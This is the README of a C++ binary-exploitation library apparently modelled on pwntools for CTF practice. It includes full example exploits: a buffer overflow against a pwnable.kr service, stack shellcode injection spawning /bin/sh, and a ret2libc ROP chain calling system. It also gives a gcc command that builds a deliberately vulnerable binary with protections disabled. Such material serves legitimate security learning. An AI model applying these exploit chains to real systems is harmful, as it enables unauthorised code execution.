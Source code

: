# ctf

A C++ pwnlib-like library for binary exploitation.

It's not as developed as pwnlib, but it's a start.

## Examples

buffer overflow:
```cpp
#include <ctf/ctf.hpp>
#include <exception>
#include <iostream>
#include <memory>
#include <string_view>

using namespace ctf;

constexpr uint16_t PORT   = 9000;
constexpr uint32_t OFFSET = 0x6161616e;
constexpr uint32_t PASS   = 0xcafebabe;

int main(int argc, char **argv) try {
    auto local = argc > 1 && std::string_view(argv[1]) == "local";

    auto payload = from_ranges<uint8_t>(
        cyclic(cyclic_find(OFFSET)),
        p<uint32_t>(PASS)
    );

    using UniqTube = std::unique_ptr<Tube>;

    UniqTube io =
        local ? UniqTube(new Process("./bin/bof")) // the code from pwnable
              : UniqTube(new Remote("pwnable.kr", PORT));
              
    io->writeln(payload);
    io->interactive();
} catch (const std::exception &ec) {
    std::cerr << ec.what() << std::endl;
}
```

shellcode injection:
```cpp
#include <ctf/ctf.hpp>
#include <exception>
#include <iostream>
#include <string_view>

using namespace ctf;

// rip clobber at 0x61676161
constexpr uint32_t RIP = 0x62616162;

int main(int argc, char **argv) try {
    auto use_gdb   = argc > 1 && std::string_view(argv[1]) == "use_gdb";
    auto elf       = ELF("./bin/vuln");
    auto jmp_rsp   = elf.search({"jmp rsp"}).at(0);
    auto offset    = cyclic_find(RIP);
    auto shellcode = linux_sh_x64();

    auto payload = from_ranges<uint8_t>(
        cyclic(offset), 
        p<uint64_t>(jmp_rsp), 
        shellcode
    );

    auto vuln = "./bin/vuln";
    auto proc = use_gdb ? Gdb::debug(vuln, "b main\nc\n") : Process(vuln);
    proc.writeln(payload);
    proc.interactive();
} catch (const std::exception &ec) {
    std::cerr << ec.what() << std::endl;
}
```

ret2libc:
```cpp
#include <cstdint>
#include <ctf/ctf.hpp>
#include <iostream>

using namespace ctf;

constexpr uint32_t RIP = 0x62616162;

int main() try {
    auto elf      = ELF("./bin/vuln");
    auto libc     = ELF("/lib/x86_64-linux-gnu/libc.so.6");
    auto puts_plt = elf.plt()["puts"];
    auto puts_got = elf.got()["puts"];
    auto main_sym = elf.symbols()["main"];
    auto rop      = ROP("./bin/vuln");
    auto pop_rdi  = rop.find_gadget({"pop rdi", "ret"}).at(0);
    auto ret      = rop.find_gadget({"ret"}).at(0);

    auto payload = from_ranges<uint8_t>(
        cyclic(cyclic_find(RIP)),
        p<uint64_t>(pop_rdi),
        p<uint64_t>(puts_got),
        p<uint64_t>(ret),
        p<uint64_t>(puts_plt),
        p<uint64_t>(main_sym)
    );
    auto proc = Process("./bin/vuln");
    proc.writeln(payload);
    println(proc.readln());

    auto leak_str = proc.readln();
    hex_println(leak_str);
    auto leak = up<uint64_t>(leak_str);
    std::cout << "0x" << std::hex << leak << std::endl;

    libc.set_address(leak - libc.symbols()["puts"]);
    auto system_sym = libc.symbols()["system"];
    auto bin_sh     = libc.strings()["/bin/sh"];

    auto new_payload = from_ranges<uint8_t>(
        cyclic(cyclic_find(RIP)),
        p<uint64_t>(pop_rdi),
        p<uint64_t>(bin_sh),
        p<uint64_t>(system_sym),
        p<uint64_t>(main_sym)
    );
    proc.writeln(new_payload);
    proc.interactive();
} catch (const std::exception &e) {
    std::cerr << e.what() << std::endl;
}
```

## Dependencies
- asio
- subprocess.h
- magic-enum
- fmtlib
- LIEF
- capstone
- keystone
- googletest (for tests)

The CMake script uses FetchContent to grab the dependencies and build them. I haven't had the chance to automate things via vcpkg or conan mainly due to missing dependencies there (LIEF and Keystone).
The dependencies are private to ctf and their headers are not exposed to the developer.

## Requirements
C++20 compiler. CMake > 3.18.

## Building
```bash
git clone https://github.com/MoAlyousef/ctf
cd ctf
# configure
cmake -Bbin -GNinja
# build
cmake --build bin
```

By default this builds a shared library libctf, this provides better link times.
To disable this, use `-DCTF_BUILD_SHARED=OFF` in the configure step.

The default configure step will not build the examples nor the tests. To build those, use `-DCTF_BUILD_EXAMPLES=ON` and `-DCTF_BUIILD_TESTS=ON`.

A vulnerable source code in `examples/vuln.c` is used for the examples. Its not built by CMake. If you would like to build it you can use `gcc -o bin/vuln examples/vuln.c -zexecstack -fno-stack-protector -no-pie -D_FORTIFY_SOURCE=0`.

You can use CMake's FetchContent to incorporate ctf into your project:
```cmake
include(FetchContent)
FetchContent_Declare(
  ctf
  GIT_REPOSITORY https://github.com/MoAlyousef/ctf
  GIT_SHALLOW    True
)
FetchContent_MakeAvailable(ctf)
```

Otherwise, you can build the project and use the generated ctf shared library and the public headers in `include/ctf`.
